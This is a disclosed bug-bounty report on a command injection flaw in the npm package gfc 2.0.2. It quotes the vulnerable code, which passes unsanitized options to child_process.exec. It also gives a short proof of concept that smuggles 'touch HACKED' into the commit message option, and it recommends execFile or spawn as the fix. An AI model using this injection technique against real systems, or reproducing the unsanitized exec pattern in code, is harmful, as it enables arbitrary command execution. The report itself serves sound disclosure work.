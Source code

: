 # [gfc] Command Injection via insecure command formatting

## Report Details
- **Report ID**: 871071
- **URL**: https://hackerone.com/reports/871071
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2020-05-11T20:02:14.558Z
- **Disclosed**: 2020-10-27T20:26:38.379Z

## Reporter
- **Username**: d3lla
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report a `Command Injection` issue in the `gfc` module.
It allows to execute arbitrary commands on the victim's PC.

# Module

**module name:** `gfc`
**version:** `2.0.2`
**npm page:** `https://www.npmjs.com/package/gfc`

## Module Description

Simple way to initialize a new git repository in an empty directory, add a file and do a first commit (or skip that part in a directory with files). Useful for unit tests and generators.

## Module Stats

[15] weekly downloads

# Vulnerability

## Vulnerability Description

The issue occurs because a user input parameter is used inside a command that is executed without any proper sanitization. 
Here's the code which causes the issue:

```javascript

// https://github.com/jonschlinkert/gfc/blob/master/index.js#L80
...
const cp = require('child_process');
...
const firstCommit = async(cwd, options, callback) => {
    ....
    const opts = Object.assign({ cwd: cwd }, options);
    ....
    .then(async() => {
      return await exec(createArgs(opts), execOpts); //<-- options
    });
...

function createArgs(options) {
  const opts = Object.assign({}, defaults, options);
  const args = ['git init'];
  const files = opts.files ? arrayify(opts.files).join(' ') : '.';
  let message = opts.message || 'First commit';

  if (message[0] !== '"' && message.slice(-1) !== '"') {
    message = `"${message}"`; //<-- injection
  }

  // backwards compatibility
  if (opts.skipCommit === true) {
    opts.commit = false;
  }

  if (opts.forceFile === true || (opts.file !== false && isEmpty(opts.cwd))) {
    args.push('touch "' + opts.file.path + '"');

    if (opts.file.contents) {
      args.push('echo "' + opts.file.contents.toString() + '" >> ' + opts.file.path);
    }
  }

  if (opts.commit !== false) {
    args.push(`git add ${files}`);
    args.push(`git commit -m ${message}`);
  }

  if (typeof opts.remote === 'string' && isGitUrl(opts.remote)) {
    args.push(`git remote add origin ${opts.remote}`);

    if (opts.push === true) {
      args.push('git push --force origin master:master');
    }
  }

  return args.join(' && ');
}
```
The arguments `options` is used to build the command that is passed to the `child_process.exec` function without any sanitization.


## Steps To Reproduce:
- create a directory for testing
    - `mkdir poc`
    - `cd poc/`

- install `gfc` module:
    -  `npm i gfc`
- create the following PoC JavaScript file (`poc.js`):

```javascript

const firstCommit = require('gfc');
const options = {message: '""; touch HACKED;'};
firstCommit('.', options, function(err) {});

```
- make sure that the `HACKED` file does not exist:
    - `ls`
- execute the `poc.js` file:
    - `node poc.js`
- the `HACKED` file is created:
    - `ls`
    
{F824264}


## Patch
Do not concatenate/format commands using insecure user's input. Always check and sanitize it. 
In my opinion, it's better to use [`child_process.execFile`](https://nodejs.org/api/child_process.html#child_process_child_process_execfile_file_args_options_callback) or [`child_process.spawn`](https://nodejs.org/api/child_process.html#child_process_child_process_spawn_command_args_options) functions instead of `child_process.exec`.

## Supporting Material/References:

- OPERATING SYSTEM VERSION: Ubuntu 18.04.4 LTS
- NODEJS VERSION: v14.1.0
- NPM VERSION: 6.14.5

# Wrap up

- I contacted the maintainer to let them know: [N] 
- I opened an issue in the related repository: [N] 


Thank you for your time.

best regards,

d3lla

## Impact

Command Injection on `gfc` module via insecure command formatting.

## Attachments
- gfc_poc.mov
